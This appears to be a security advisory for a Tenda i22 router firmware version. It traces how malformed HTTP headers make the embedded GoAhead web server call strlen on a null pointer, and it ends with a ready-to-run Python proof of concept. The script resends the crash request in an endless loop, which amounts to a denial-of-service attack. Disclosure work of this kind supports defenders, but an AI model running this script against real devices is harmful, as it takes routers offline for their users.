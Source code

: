 # Overview
Details of the vulnerability found in the tenda router i22 V1.0.0.3 (4687).

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| i22    | V1.0.0.3(4687)    | https://static.tenda.com.cn/tdcweb/download/uploadfile/i22/US_i22V1.0BR_V1.0.0.3(4687)_CN_TDC01.zip    |




# Vulnerability details
## Vulnerability trigger Location
The following vulnerability analysis and explanation are based on the i22 router with  firmware version `V1.0.0.3(4687)`.

For easier analysis, I referred to the GoAhead 2.5 source code on https://github.com/ehlalwayoUk/goahead/tree/master and modified the variable names accordingly in Ghidra. The vulnerability trigger location is at the `strlen` function call within the `websReadEvent` function, at address 0x24640.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Conditions to Satisfy
- In the websUrlParse function, the `?` in POST /goform/GetIPTV?fgHPOST/goform/SysToo allows `strchr` at `0x1b588` to get the index of the ?. Referring to the GoAhead source code, it can be seen that the information after `?` is stored in `wp->query`. ![websUrlParse](./assets/2.png) ![websUrlParse](./assets/3.png) 

- **Content-Length** must be written twice.
    - The first `Content-Length` should be `>= 1`. This is necessary to set `param_1 + 0xd8(wp->flags) |= 0x400` and call `websSetVar`  to set `CONTENT_LENGTH` value..
    ![else_content_length](./assets/4.png)
    - The second `Content-Length` is to set `clen = 0`. It set `param_1 + 0xe0 = 0`.
- After that, an empty line (`\r\n`) is needed to ensure the final `buf` is empty.In the `socketGets` function, reading an isolated \r\n sets `nbytes = 0`, and as a result, `*buf = 0`. The corresponding assembly location is at `0x17818`.![socketGets](./assets/5.png)

- Due to conditions such as nbytes = 0 being met, wp->state([wp[0x35]]) = 8 is finally set in the websGetInput function at address 0x24c00.![wp_state_8](./assets/6.png)

- At the address 0x24524 of the websReadEvent function, the wp->state([wp[0x35]]) will be switched, and the value of wp->state([wp[0x35]]) is 8, so the operation flow will eventually come to the LAB_000245d0. ![7](./assets/7.png) ![8](./assets/8.png)

- As a result, in the `websReadEvent` function, because `wp->state = 8` and there is content in `wp->query`, both the `if` and `else if` conditions are not satisfied, leading to the else branch being executed, which triggers the vulnerability.`strlen` is called with a null pointer, which leads to a segmentation fault when dereferenced internally.![ivar2_8](./assets/9.png)

# POC

```python
import socket

host = "192.168.1.100"
port = 80
times = 0
while 1:
    times += 1
    print("times:"+str(times))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    request = (
        "POST /goform/GetIPTV?fgHPOST/goform/SysToo HTTP/1.1\r\n"
        "Content-Length:1\r\n"
        "Content-Length:# \r\n"
        "\r\n"
    )
    s.send(request.encode())
    response = s.recv(4096)
    print(response.decode())
    s.close()
```

# Vulnerability Verification Screenshot
##  I22 &nbsp;&nbsp; V1.0.0.3 (4687)
![10.png](./assets/10.png)

